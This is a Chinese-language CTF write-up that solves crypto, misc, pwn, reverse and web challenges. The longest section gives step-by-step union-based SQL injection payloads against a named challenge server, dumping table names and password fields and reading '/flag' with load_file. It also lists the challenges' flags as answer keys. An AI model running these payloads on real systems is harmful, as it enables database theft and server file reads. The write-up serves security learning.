# Crypto emoticons

**flag{ab7e558f-3851-4bdf-9c9e-a86fcc692c47}**

解码方法：打开浏览器，进入浏览器控制台，在console控制台粘贴代码，回车后便能得到解密后的代码。

# Misc joker1

## 较为简单的flag1

压缩包解压后是一张图片 右键也看不到什么有用的信息

用010editor或者其他十六进制工具打开



最后有一段这个东西，看到结尾=号基本可以猜到是base64



解码后的东西是十六进制是东西，拿去转换一下

可以自己写python脚本也可以网上找在线工具

```python
data = [0x66,0x6c,0x61,0x67,0x7b,0x59,0x6f,0x75,0x5f,0x61,0x72,0x65,0x5f,0x73,0x6f,0x5f,0x67,0x6f,0x6f,0x64,0x7d]
flag = ""
for i in data:
		flag += chr(i)
print(flag)
```

得到flag

flag{You_are_so_good}

## 较为困难的flag2

这个是需要更改png文件的图片高度



在文件开头的第23-24个字节是文件的高度

我们修改为




得到flag

flag{Nice_job!}

# Pwn intOverflow

- 可以看出要让int b小于100，又要让unsigned int b大于200，只要传入一个-1，就可以让-1<100，而变成unsigned int之后-1会变成一个超大的整数，因此可以很轻松的大于200，获得权限。

- 然后 `cat /flag` 来读取根目录下的 flag 文件，获得答案

# re guess_game

## flag1

- 获取的步骤可以硬猜，也可以直接用 IDA 打开
- 字符串里就有



## flag2

- 可以看到第二步密钥输入的时候有一个异或比对的过程
- 因此将其中的密文提取出来，根据异或的算法逆推过程即可得到 flag
    - 异或的逆运算也是异或

```c
#include <iostream>
using namespace std;
int main()
{
    int a[] = {
        103, 110, 98, 99, 126, 126, 55, 122, 86, 99, 120, 83, 121, 97, 96, 79, 116, 38, 96, 109, 104
    };
    for (int i = 0; i < 21; i++)
    {
        printf("%c", a[i] ^ (i + 1));
    }
}
```

# web sql

## easy_sql

### 判断注入类型（字符型注入/数字型输入）

```
http://hwserver.bi0x.cn:8302/?id=1 and 1=1#
```

发现是数字型注入



### 判断字段数

```
http://hwserver.bi0x.cn:8302/?id=1 order by 3#
```





### 判断注入点

```
http://hwserver.bi0x.cn:8302/?id=0 union select 1,2,3#
```



1 2 3都是注入点

### 爆库名

```
http://hwserver.bi0x.cn:8302/?id=0 union select database(),2,3#
```




库名是`ctf` , 接下来爆表名

### 爆表名

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(table_name),2,3 from information_schema.tables where table_schema=database()#
```

 表名如下：`emails,referers,uagents,users `




### 爆字段名

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(column_name),2,3 from information_schema.columns where table_name='users'#
```

这里选择爆`users`表的字段，因为一般来说用户名密码才是数据库中最重要的资料。


这里爆出字段名如下：` id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS `

### 爆字段内容

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(password),2,3 from users#
```

这里爆出来flag：` flag{this_is_easy_SQL} `

然后得到另一个线索：` flag in /flag `




也就是说另外一个flag藏在数据库以外，需要使用mysql的函数去读取服务器文件。

### 读取文件

```
http://hwserver.bi0x.cn:8302/?id=0 union select load_file('/flag'),2,3#
```

flag：` flag{th1s_1s_a_l1tt1e_h4rd_Sq1_f1ag} `

完结撒花~

喜欢背景可以收藏下面这张图片：

